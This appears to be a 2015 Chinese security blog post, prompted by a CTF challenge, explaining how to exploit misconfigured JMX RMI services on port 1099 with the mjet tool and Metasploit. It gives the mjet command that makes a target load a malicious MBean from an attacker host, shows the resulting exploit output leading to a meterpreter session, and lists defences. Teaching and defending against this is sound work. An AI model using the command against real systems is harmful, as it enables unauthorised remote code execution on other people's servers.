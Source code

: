 ```yaml
---
layout: post
title: "JMX RMI Exploit"
date: 2015-04-15 18:55:39
---
```

    [+] Author: Demon
    [+] Team: n0tr00t security team 
    [+] From: http://www.n0tr00t.com
    [+] Create: 2015-04-15

原文地址： [Exploiting JMX RMI](http://www.accuvant.com/blog/exploiting-jmx-rmi)

### 利用方法


写这篇文章的起因是因为ALICTF决赛的其中一道题，是关于@cnbird2008出的一道linux渗透的题目，里面涉及了一台机器开启了1099端口。赛后很多同学说对这个利用方式感兴趣，所以整理出来，让小伙伴们以后方便查阅。

1099端口原本对应的服务为[Apache ActiveMQ](http://activemq.apache.org/jmx.html)对JMX的支持，但是由于配置不当，导致攻击者可以通过此端口利用javax.management.loading.MLet的getMBeansFromURL方法来加载一个远端恶意的MBean，即可以远程执行任意代码。当然，这个JMX的利用方法不仅仅在ActiveMQ上能够利用，在很多服务支持JMX的情况下其实也能够适用。

原文中详细的阐述了这个漏洞的原理分析和Exploit的编写，这里就不再赘述了。如何利用这个漏洞直接调用执行metasploit中的meterpreter payload呢，国外已经有人写了个JMX的利用工具叫mjet，在github上能够搜索到，[传送门](https://github.com/mogwaisec/mjet)。利用方法说的很详细，先是通过公网一台机器搭建好metasploit，启动一个java_mlet_server模块，能够让目标机器去加载恶意代码。然后使用mjet.jar这个工具来Exploit，具体的命令如下：

	java -jar mjet.jar -t target_ip -p 1099 -u http://attacker_ip:8080/mlet/
	
attacker_ip即自己公网装有metasploit的机器IP。执行后如果成功Exploit，会返回以下信息。

	---------------------------------------------------
	MJET - Mogwai Security JMX Exploitation Toolkit 0.1
	---------------------------------------------------
	
	[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
	[+] Connected: rmi://192.168.178.164  5
	[+] Trying to create MLet bean...
	[+] Loaded javax.management.loading.MLet
	[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
	[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
	[+] Loaded class: metasploit.Metasploit
	[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
	[+] Invoking: metasploit.Metasploit.run()
	[+] Done
	
中间执行的过程一目了然。然后在java_mlet_server端就反弹了一个meterpreter session在后端了。

### 防御方案
* 配置中启用SSL客户端证书身份认证。
* 启用密码方式的授权认证并使用SSL传输。
* 对JMX RMI的端口做iptables。

### 参考
* http://docs.oracle.com/javase/6/docs/technotes/guides/management/agent.html
* http://drops.wooyun.org/papers/178

